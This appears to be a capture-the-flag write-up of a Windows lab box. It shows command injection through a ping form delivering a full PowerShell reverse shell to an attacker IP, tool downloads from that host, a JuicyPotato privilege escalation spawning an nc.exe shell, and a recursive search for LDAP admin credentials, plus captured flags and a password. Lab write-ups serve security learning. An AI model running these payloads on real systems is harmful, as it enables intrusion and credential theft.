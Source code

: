 ## Initial Access

The target has a web page to ping hosts
![[Pasted image 20240621144914.png]]

Put the following in the box to inject a command:
```
127.0.0.1 && powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.16.38',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

And got a shell:
![[Pasted image 20240621145040.png]]

## Privilege Escalation

First I download [JuicyPotato](https://github.com/ohpe/juicy-potato/releases) and [nc.exe](https://github.com/int0x33/nc.exe/) to the attacker machine.

Then I transferred both files to the target machine, to the `C:\Users\Public\Documents` directory:
```powershell
Invoke-WebRequest http://10.10.16.38:8000/JuicyPotato.exe -OutFile JuicyPotato.exe
```

```powershell
Invoke-WebRequest http://10.10.16.38:8000/nc.exe -OutFile nc.exe
```

Then I ran the following from the website, using the command injection vulnerability:
```
127.0.0.1 && C:\Users\Public\Documents\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c C:\Users\Public\Documents\nc.exe 10.10.16.38 8443 -e cmd.exe" -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```

Used [this website](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2016_Standard) for the appropriate CLSID to use.

And I got a shell:
![[Pasted image 20240621173008.png]]

And the flag:
![[Pasted image 20240621173157.png]]

Ev3ry_sysadm1ns_n1ghtMare!

Searching for the confidential.txt file:
![[Pasted image 20240621173653.png]]

Getting the file:
![[Pasted image 20240621173722.png]]

5e5a7dafa79d923de3340e146318c31a

Got the password for ldapadmin with the command:
```powershell
Get-ChildItem -Path C:\ -Recurse -File | Select-String -Pattern ldapadmin
```

car3ful_st0rinG_cr3d$